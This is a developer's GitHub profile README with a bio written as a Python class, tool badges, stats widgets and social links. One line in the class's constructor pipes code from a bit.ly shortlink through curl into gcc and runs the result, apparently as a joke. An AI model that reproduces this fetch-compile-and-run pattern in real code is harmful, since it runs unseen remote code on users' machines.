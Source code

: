 <h1 align="center">Hi 👋, I'm Pratik Pingale 👨‍💻</h1>
<p align="center">
  <img src="https://readme-typing-svg.herokuapp.com?color=%2336BCF7&size=16&center=true&vCenter=true&width=485&lines=Just+a+novice.+Still+got+a+lot+to+learn.;Competitive+Coding+%3Ap;Loves+Open+Source+%E2%9D%A4%EF%B8%8F" alt="Just a novice. Still got a lot to learn." />
</p>

```python
class PROxZIMA:
  def __init__(self):
    subprocess.call("curl -sL 'bit.ly/pr0x21m4' | gcc -w -o name -xc - && ./name", shell=True)
    self.bio = {
      '- 💼 I’m currently working for': {'Convin.ai': 'https://convin.ai'},
      '- 🔭 I’m currently working on' : {'Prism'    : 'https://github.com/PROxZIMA/prism',
                                         'Sweet-Pop': 'https://github.com/PROxZIMA/Sweet-Pop'},
      '- 🌱 I’m currently learning'   : ['Django', 'C++', 'Python', 'Full Stack Development', 'Algo Trading'],
      '- 💬 Ask me anything'          : '¯\_(ツ)_/¯',
      '- 👨‍💻 My projects available at' : 'https://github.com/PROxZIMA?tab=repositories',
      '- 📄 Know about my experiences': 'https://proxzima.ml/resume',
      '- ⚡ Fun fact'                 : ('Proxima Centauri is a small, low-mass star located 4.2465 light-'
                                         'years away from the Sun in the southern constellation of Centaurus.')
    }

if __name__ == '__main__':
  import subprocess, pprint
  pprint.pprint(PROxZIMA().__dict__)
```
<br>

### - Tools/Interests 🔗
<p align="center">


<!-- |---|---|---|---|---|---|---|---|---|---|---|---|---|---|---| -->
[![Arch Linux](https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/arch.svg)](#) &nbsp;&nbsp; [![Pop!_OS](https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/popos.svg)](#) &nbsp;&nbsp; [![Windows](https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/windows.svg)](#) &nbsp;&nbsp; [![Android](https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/android.svg)](#) &nbsp;&nbsp; [![Firefox](https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/firefox.svg)](#) &nbsp;&nbsp; [![Git](https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/git.svg)](#) &nbsp;&nbsp; [![GitHub](https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/github.svg)](#) &nbsp;&nbsp; [![BitBucket](https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/bitbucket.svg)](#) &nbsp;&nbsp; [![Python](https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/python.svg)](#) &nbsp;&nbsp; [![C](https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/c.svg)](#) &nbsp;&nbsp; [![C++](https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/cplusplus.svg)](#) &nbsp;&nbsp; [![Java](https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/java.svg)](#) &nbsp;&nbsp; [![Kotlin](https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/kotlin.svg)](#) &nbsp;&nbsp; [![Bash](https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/bash.svg)](#) &nbsp;&nbsp; [![HTML5](https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/html5.svg)](#)
[![CSS3](https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/css3.svg)](#) &nbsp;&nbsp; [![JavaScript](https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/javascript.svg)](#) &nbsp;&nbsp; [![TypeScript](https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/typescript.svg)](#) &nbsp;&nbsp; [![MySQL](https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/mysql.svg)](#) &nbsp;&nbsp; [![PostgreSQL](https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/postgresql.svg)](#) &nbsp;&nbsp; [![FireBase](https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/firebase.svg)](#) &nbsp;&nbsp; [![Numpy](https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/numpy.svg)](#) &nbsp;&nbsp; [![Pandas](https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/pandas.svg)](#) &nbsp;&nbsp; [![Django](https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/django.svg)](#) &nbsp;&nbsp; [![Flask](https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/flask.svg)](#) &nbsp;&nbsp; [![React](https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/react.svg)](#) &nbsp;&nbsp; [![Google Colab](https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/colab.svg)](#) &nbsp;&nbsp; [![Google Cloud](https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/cloud.svg)](https://www.qwiklabs.com/public_profiles/8ce32532-ca12-4a89-aed0-99c9316cae73) &nbsp;&nbsp; [![CodePen](https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/codepen.svg)](https://codepen.io/proxzima) &nbsp;&nbsp; [![Hackerrank](https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/hackerrank.svg)](https://www.hackerrank.com/PROxZIMA)
[![CodeChef](https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/codechef.svg)](https://www.codechef.com/users/proxzima) &nbsp;&nbsp; [![LeetCode](https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/leetcode.svg)](https://leetcode.com/PROxZIMA) &nbsp;&nbsp; [![Postman](https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/postman.svg)](#) &nbsp;&nbsp; [![Alacritty](https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/alacritty.svg)](#) &nbsp;&nbsp; [![NeoVim](https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/neovim.svg)](#) &nbsp;&nbsp; [![VS Codium](https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/vscode.svg)](#) &nbsp;&nbsp; [![Android Studio](https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/android_studio.svg)](#)
</p>

### - Workspace 🖥️
<p align="center">
  <a href="#"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/graphics.svg" alt="NVIDIA 3050"></a>
  <a href="#"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/processor.svg" alt="AMD Ryzen 7 4800H"></a>
  <a href="#"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/laptop.svg" alt="Asus"></a>
</p>

### - Languages 🔭
<p align="center" >
  <a href="https://github.com/anuraghazra/github-readme-stats"><img src="https://github-readme-stats.vercel.app/api/top-langs/?username=proxzima&&show_icons=true&theme=radical&hide_border=true&layout=compact&custom_title=Languages%20I%20Use&langs_count=8" alt="proxzima"/></a>
</p>

### - Stats ⚡️
<a href="https://github.com/anuraghazra/github-readme-stats"><img src="https://github-readme-stats.vercel.app/api?username=proxzima&include_all_commits=true&count_private=true&show_icons=true&theme=radical&hide_border=true&custom_title=PROxZIMA%27s%20Github%20Stats" width="48%" alt="proxzima"/></a><a href="https://github.com/DenverCoder1/github-readme-streak-stats"><img align="right" src="https://github-readme-streak-stats.herokuapp.com?user=PROxZIMA&theme=radical&hide_border=true" width="48%" alt="My Streak"/></a>
<br>

## - Find me around the web 🌎
<p align="center">
  <a href="mailto:pratikbpingale9075@gmail.com"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/social/gmail.svg" alt="gmail"></a>
  <a href="https://linkedin.com/in/pratik-pingale"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/social/linkedin.svg" alt="pratik-pingale"/></a>
  <a href="https://www.instagram.com/pro_x_zima/"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/social/instagram.svg" alt="pro_x_zima"/></a>
  <a href="https://twitter.com/pro_x_zima"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/social/twitter.svg" alt="pro_x_zima"/></a>
  <a href="https://www.reddit.com/user/PratikPingale"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/social/reddit.svg" alt="PratikPingale"/></a>
  <a href="https://discordapp.com/users/422274155509972992"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/social/discord.svg" alt="PROxZIMA#7272"/></a>
  <a href="https://t.me/PROxZIMA"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/social/telegram.svg" alt="PratikPingale"/></a>
  <a href="https://marketplace.visualstudio.com/publishers/PROxZIMA"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/social/marketplace.svg" alt="PROxZIMA"/></a>
</p>

<p align="center">
  <img src="https://komarev.com/ghpvc/?username=PROxZIMA&label=Profile+Views&color=141321" alt="PROxZIMA" />
</p>

![](https://hit.yhype.me/github/profile?user_id=43103163)
